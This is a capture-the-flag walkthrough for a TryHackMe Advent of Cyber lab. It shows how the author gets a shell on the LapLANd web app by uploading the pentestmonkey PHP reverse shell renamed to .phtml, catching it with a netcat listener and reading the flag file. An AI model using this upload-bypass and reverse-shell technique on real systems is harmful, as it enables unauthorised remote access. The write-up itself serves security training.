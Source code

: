 ```console
```

## Santa has a secret! Which station is he meeting Mrs Mistletoe in?
use the Santa's cerdentail and login to the web app. check the messages
## Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/
I tried to upload the revers-shell.php in ```/usr/share/webshells/php``` none of them works. So I try to do some research a [walkthrought by embeddedhacker](https://www.embeddedhacker.com/2019/12/hacking-walkthrough-thm-cyber-of-advent/#day23) said that we need a older version of ```php``` so call ```.phtml``` which you can download [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

save it and change ip to ur ip and port
```console
kali@kali:~/day23$ nc -lnvp 20000 # run netcat using the port that you wrote in the script
listening on [any] 20000 ...
```
now upload our payload (reverse-shell scrip)
```console
$ whoami
www-data
$ ls /home
user
$ ls /home/user
flag.txt
$ cat /home/user/flag.txt
@@@########################################################################@@@@
@@@(((((((((((((((((((((((((((((((((((%#(((((((((((((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((((((((((((%%,*%%(((((((((((((((((((((((((((((((((@@@@
@@@((((((((((((((((((&%(((((((((((%#*/##(((((((((((#@%%((((((((((((((((((@@@@
@@@(((((((((((((((((((%(//%((((((#(//,*%%((((((#/,(#(((((((((((((((((((@@@@
@@@((((((((((((((((((((#(*%#/##,*#&%%%&%%,*%###%%/*&(((((((((((((((((((((@@@@
@@@(((((((((((((((((((((#(&@(*(#(##%&%#%%%%#((%,*%&((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((@%%((#(**/*#,*(*//*/(((%%@(((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((%%#(##,#**,##%#,*(#*#((%%#(((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((#/#*(,*/((((((((((/****%*%(((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((#(&/,,,,,,,,,,,,,,/%&&/#(((((((((((((((((((((((@@@@
@@@((((((((((((((((((((((((#&((##(/********/(#(((&%((((((((((((((((((((((((@@@@
@@@((((((((((((((((((((((((((((((((########((((((((((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((((((((((((#((((((((((((((((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((((%/((,     .      *##/%(((((((((((((((((((((((((@@@@
@@@((((((((%((((((%((((((%###  .      .       .  %%(%((((((%((((((&((((((((@@@@
@@@((((((%/,##((%/ #(((((%###  .   .  .       .. %%#%(((((&.(&((%( (#((((((@@@@
@@@(((((#*,(%*%,%%/ (##((%###  .  .   .        * %%#%(((%# (%###(%( #((((((@@@@
@@@((#%%.*#%,*#,/((# %(#%%### /*,./..*..,/ , ,*/ %%#%#%(/ (%,%/,%.(#,*##%((@@@@
@@@(((# #(#,/(*(#./## /((%### /*/%&&,(..,/#,%.(  %%#%(#./%#,/%.(%,(##* #(((@@@@
@@%#((#(/##%/%%(#%#%(%###.**.,*,.*.,,. **.*  %%#%(%#%#/%&*%%*&%((#((##@@@
@@&%(((#,##(*#%/%(,## #((%###  .(     .    ,. .  %%#%((#.#((,%(*%(,##.((((#&@@@
@@@@((((# %#,/#,#/(#(((((%###  .      .       .  %%#%(((((,#*#*#/,(% #((((&@@@@
@@@&((((((%#&,#(/%(((((%###..,/#####&%#####*. .%%#%(((((##&*##.%##((((((@@@@@
@@@@&((((((##(((#%(((((((%#(####//(##%@&%###((####(#%((((((###((###((((((%#@@@@
@@@@@((((((((((((((((((((#%%%%%%%%%%%%%#%%%%%%%%%%%%%((((((((((((((((((((@,@@@@
@@@@&@(((((((((((((((((((((((((((((((##%(#((((((((((((((((((((((((((((((#.@@@@@
@@@@@ #((((((((((((((((((((((((((((%/%&&%%##((((((((((((((((((((((((((((@@@@@@@
@@@@@@@#(((((((((((((((((((((((((%.( /%@,( (/#(((((((((((((((((((((((((@@@@@@@@
@@@@@@@&((((((((((((((((((((((%#.(   /&%*/   (.(%(((((((((((((((((((((@%@@@@@@@
@@@@@@@@%%((((((((((((((((#&(#.* . ** /@./,,.. / &(%((((((((((((((((#@,@@@@@@@@
@@@@@@@@@.&(((((((((((((((&@@&%, /#,  /%, .#&@@@%%#((((((((((((((%#@@@@@@@@@@
@@@@@@@@@@%@((((((((((((((#&..,,%&@. #//(( /@@#., ,(((((((((((((@%@@@@@@@@@@@
@@@@@@@@@@@@@&(((((((((((((#,(  ,,,,#(/(#&@(,,.  /#(((((((((((((&%@@@@@@@@@@@@@
```